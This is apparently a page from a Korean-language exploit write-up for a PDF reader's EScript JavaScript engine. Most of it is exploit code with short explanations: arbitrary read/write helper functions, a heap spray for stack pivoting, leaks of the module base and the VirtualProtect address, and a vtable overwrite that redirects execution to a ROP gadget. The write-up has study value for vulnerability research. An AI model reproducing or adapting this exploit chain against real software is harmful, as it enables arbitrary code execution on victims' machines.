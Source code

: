             ```js
            function readUint32(dataView, readAddr) {
              var offsetAddr = readAddr - StartAddr;
              if (offsetAddr < 0) {
                offsetAddr = offsetAddr + 0xFFFFFFFF + 1;
              }
              return dataView.getUint32(offsetAddr, true);
            }
            
            function writeUint32(dataView, writeAddr, value) {
              var offsetAddr = writeAddr - StartAddr;
              if (offsetAddr < 0) {
                offsetAddr = offsetAddr + 0xFFFFFFFF + 1
              }
              return dataView.setUint32(offsetAddr, value, true);
            }
            ```
            
            - 위 두 함수는 각각 임의의 VA(readAddr, writeAddr)가 가리키는 값을 제어하는 데 도움을 주는 Helper Function이다.
            
            **Helper Function의 동작 과정은 다음과 같다.**
            
            1. 특정 메모리의 VA를 전달 받으면 r/w primitive VA와의 offset을 계산한다.
            2. r/w primitive의 DataView object로 1.에서 구한 offset 위치의 값을 제어한다.
                
                이를 통해 특정 메모리의 VA를 이용해 메모리 값을 제어할 수 있다.
                

## 3. Preparing Stack Pivoting

```jsx
var heapSegmentSize = 0x10000;
heapSpray = new Array(0x8000);

for (var i = 0; i < 0x8000; i++) {
    heapSpray[i] = new ArrayBuffer(heapSegmentSize - 0x10 - 0x8);
}
```

- 임의의 주소로 esp를 옮겨 해당 영역을 프로그램에게 Fake Stack이라 속이는 Stack Pivoting을 수행한다.
- 옮겨진 esp가 있는 Fake Stack은 쓰기 권한이 존재해야 Stack이 자라며 쓰기 권한이 없어서 발생하는 에러를 막을 수 있다.
    
    이를 위해 Heap을 충분히 많이 할당해 옮겨진 esp가 있는 Fake Stack에 높은 확률로 쓰기 및 읽기 권한이 있도록 한다.
    
    항상 Fake Stack이 spray된 Heap 영역 (할당된 heap 영역)에 들어가는 것은 아니므로 항상 exploit이 성공하지는 않는다.
    

## 4. Address Leak & Overwrite ⇒ Hijacking Execution Flow

```js
// 1. START Information Leak
// leak the base address of EScript
EScriptModAddr = readUint32(rw, readUint32(rw, StartAddr - 8) + 0xC) - 0x277548;

// leak VirtualProtect address in kernel32.dll used by EScript
VirtualProtectAddr = readUint32(rw, EScriptModAddr + 0x1B0060);

// leak address of vtable
var dataViewObjPtr = rw.getUint32(0xFFFFFFFF + 0x1 - 0x8, true);
var dvShape = readUint32(rw, dataViewObjPtr);
var dvShapeBase = readUint32(rw, dvShape);
var dvShapeBaseClasp = readUint32(rw, dvShapeBase);
// END Information Leak

// 2. Overwrite address of getProperty in vtable to address of ROP gadget
var offset = 0x1050AE;
writeUint32(rw, dvShapeBaseClasp + 0x10, EScriptModAddr + offset);

```